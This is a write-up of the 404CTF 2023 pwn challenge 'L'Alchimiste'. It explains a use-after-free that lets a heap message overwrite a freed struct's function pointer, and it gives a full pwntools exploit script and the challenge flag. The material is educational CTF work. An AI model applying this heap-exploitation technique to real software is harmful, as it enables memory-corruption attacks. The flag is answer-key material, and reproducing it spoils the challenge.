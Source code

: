 ```yaml
---
layout: post
title: 404CTF 2023 | L'Alchimiste
image: /assets/images/404ctf/l-alchimiste/cover.png
date: 2023-06-07 01:20:00
categories: [404ctf, pwn, easy, use-after-free]
---
```


This challenge was part of the [404CTF 2023](https://www.404ctf.fr/), organized by the General Directorate for External Security (DGSE) and Télécom SudParis.

# Challenge Description

![Challenge Description]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/description.png)

The given file shows us a RPG-like prompt, where we can take some actions. The goal seems to be to show the alchemist our value, and we can already guess with the prompt that the exploit will be triggered by the fifth choice.

![Program prompt]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/program.png)

# Reverse Engineering

Let's start by reversing the file on [Ghidra](https://ghidra-sre.org/). The binary contains debug symbols, so it is pretty straightforward. In the main function, a character is created and passed to each chosen function.

Looking at how are implemented the `showStats` and `buyStrUpPotion` functions, we deduce that our character is a structure containing 4 fields : 
 - `str`
 - `int`
 - `gold`
 - a pointer to a structure initialized as `NULL`, that we will identify later


<div class="row-container">
<div class="flex-2">

In order to get the flag, our character needs to have at least 150 of strength and intelligence. Unfortunately, we only have 100 gold and we cannot buy intelligence potions... We will have to use our own intelligence and a **Use-After-Free** to do so !	

</div>
<div>

![view_flag function]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/view_flag.png)

</div>
</div>

# Analysis

Looking at how a potion is created, we deduce that a potion is another struct containing a `char[64]` array followed by a pointer to the function that will be executed when used.

![buyStrUpPotion function]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/potion.png)

In this function, we note that `malloc` is always executed, even if we don't have enough gold.

![useItem function]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/useItem.png)

Here `free` is called but the pointer reference will still be there !

Looking at those functions, a classic Use-After-Free comes out : if we buy a potion and use it a first time, we will then be able to repeat it to call `incStr` even if we don't have gold.
> Note that we have to call `malloc` again because else the double call to `free` will be detected and the program will crash.

___

In order to increase our strength, we just have to spam `buyStrUpPotion` and `useItem` :)

___
<br/>


As we're still unable to increase our intelligence, let's look further in the code. There is another option which allows us to send a message to the alchemist :

<div class="row-container column-reverse">
<div class="flex-2">

In this function, a buffer is allocated on the heap and we can write arbitrary data to it. Using this ability with the previous **Use-After-Free**, we can overwrite a freed potion and choose the function which will be called when used.

</div>
<div>

![sendMessage function]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/sendMessage.png)

</div>
</div>


<div class="row-container">
<div>

![incInt function]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/incInt.png)

</div>
<div class="flex-2">

Looking at the assembly code, and defined functions, we can observe that an `incInt` function is present in the binary, even if it is not called anywhere. This will make exploitation even easier for us, as this is exactly what we want to achieve.

</div>
</div>

As PIE is not enabled, the address of this function will not be random, we can find it at `0x4008d5`.

![Checksec output]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/checksec.png)



# Exploit

As always, I used [pwntools](https://docs.pwntools.com/en/stable/), which makes communication with the process easier.

```py
#!/usr/bin/python3

from pwn import *

REMOTE = True
if REMOTE:
	p = remote('challenges.404ctf.fr', 30944)
else:
	p = process('./l_alchimiste')
	input('Press [ENTER] to continue...')

"""
1: buyStrUpPotion(character); MALLOC
2: useItem(character); FREE
3: sendMessage();
4: showStats(character);
5: view_flag(character);
6: break;
"""

INC_INT = 0x4008d5

def upStr():
	p.send(b'1\n') # Potion
	p.recvuntil(b'***** ~ ')
	addr = p.recvuntil(b'\n').rstrip(b'\n')
	print(f"[+] Potion address {addr.decode()}")
	p.recvuntil(b'>>> ')
	p.send(b'2\n') # FREE
	p.recvuntil(b'>>> ')

def upInt():
	p.send(b'1\n') # Potion
	p.recvuntil(b'***** ~ ')
	addr = p.recvuntil(b'\n').rstrip(b'\n')
	print(f"[+] Potion address {addr.decode()}")
	p.recvuntil(b'>>> ')
	p.send(b'2\n') # FREE
	p.recvuntil(b'>>> ')

	payload = b'A' * int(64)
	payload += p64(INC_INT)

	p.send(b'3\n') # Send message
	p.recvuntil(b'[Vous] ')
	p.send(payload + b'\n')
	p.recvuntil(b'***** ~ ')
	addr = p.recvuntil(b'\n').rstrip(b'\n')
	print(f"[+] Message address {addr.decode()}")
	p.recvuntil(b'>>> ')
	p.send(b'2\n') # FREE
	p.recvuntil(b'>>> ')
	#p.send(b'4\n') # SHOW
	#print(p.recvuntil(b'>>> ').decode())

p.recvuntil(b'>>> ')
upStr()
upStr()
upStr()

upInt()
upInt()
upInt()
upInt()
upInt()
upInt()
upInt()
upInt()
upInt()
upInt()
p.send(b'4\n') # SHOW
print(p.recvuntil(b'>>> ').decode())

p.send(b'5\n')
sleep(2)
print(p.recv())
```

![expl.py output]({{site.baseurl}}/assets/images/404ctf/l-alchimiste/expl-output.png)

> ✅ Flag : `404CTF{P0UrQU01_P4Y3r_QU4ND_135_M075_5UFF153N7}`